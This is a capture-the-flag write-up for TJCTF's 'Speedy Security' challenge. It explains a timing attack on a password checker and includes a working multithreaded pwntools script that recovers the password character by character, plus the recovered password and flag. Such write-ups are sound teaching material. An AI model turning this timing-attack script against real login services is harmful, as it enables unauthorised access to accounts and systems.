 # Speedy Security (40 points/ 36 solves)
<!--Authors: Gabies-->
## Problem statement:
>I hear there's a flag hiding behind this new service, Speedy Security(TM). Can you find it?
>nc problem1.tjctf.org 8003

<br>

## My opinion:
The idea of this problem was pretty simple, perform a timing attack on a password checker. Easier said than done if you ask me. 
<br><br>

## The challenge:
Connecting through netcat on the server we get the following message:
```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
1
Authorization failed!
```

<br>

Ok so practically, we have a program that looks like this, or somewhat like this:

```python
def check(input,checks):
	password='thisisthepassword'
	for x in zip(input,password):
		for i in range(checks):
			if(x[0]!=x[1]):
				return 'Authorization failed!'
	return 'flag'
```

<br>

I know it's a wild guess, but after some trial and error that's what I came up with. <br>
Now, it's pretty simple how a [timing attack](https://en.wikipedia.org/wiki/Timing_attack) would work. <br> 
Try for a big number of checks (`10**6` worked for me) for each character of the password all possible characters and choose the one that took the most time to compute. Easy right? Not really, the server had some latency and sometimes it would freeze for a couple seconds. So you couldn't really guess the password in one go, also multithreading saved my life here. One more thing that was essential was to take the average of a few queries (`5` in this case was enough) in order to avoid the server's random latency.

## Getting the password:
I used the following code to get the password, but I had to restart it a few times with the last correct part of the password. I also asked the author for the length of the password, it was 32.<br>
Also, after geting the first 5 characters of the password I took another wild guess assuming the password would be made of alphanumerical characters.<br>

```python
from threading import Thread
from pwn import *
from time import time,sleep
CHECKS='1000000'
steps=5
PASS=''
S=[0 for i in range(256)]
pr='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890++'
pr=[ord(x) for x in pr]
def g(p):
	S[p]=0
	print chr(p)
	L=[Thread(target=f,args=(p,)) for i in range(steps)]
	for x in L:
		x.start()
	for x in L:
		x.join()
	S[p]/=steps
	
def f(p):
	s=remote('problem1.tjctf.org','8003')
	s.recvuntil('password?')
	s.sendline(CHECKS)
	s.recvuntil(':')
	x=time()
	s.sendline(PASS+chr(p)+'\x00'*(499-len(PASS)))
	s.recvuntil('failed!')
	y=time()
	S[p]+=y-x
	s.close()

while(1):
	for i in range(0,len(pr),8):
		W=[Thread(target=g,args=(pr[j],)) for j in range(i,i+8)]
		for R in W:
			R.start()
		for R in W:
			R.join()
	l=S
	l=[(l[pr[i]],chr(pr[i])) for i in range(len(pr))]
	print list(reversed(sorted(l)))
	l=list(reversed(sorted(l)))
	p=0
	while(l[p][1]=='+'):
		p+=1
	PASS+=l[p][1]
	print PASS
```

<br>

so the password was: **TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK** <br>

```
Welcome to Speedy Security(TM), where we'll check your password as much as you like, for added security!
How many times would you like us to check each character of your password?
1
Please enter your password:
TkVWM3IgZ29OTjQgRzF2MyB5MHUgdVAK
Successfully authorized.
Welcome back, [[ EVAN ]]
Your flag is  tjctf{char_chks_c4n_b3_SLOW}
```

<br>

Flag: **tjctf{char_chks_c4n_b3_SLOW}**
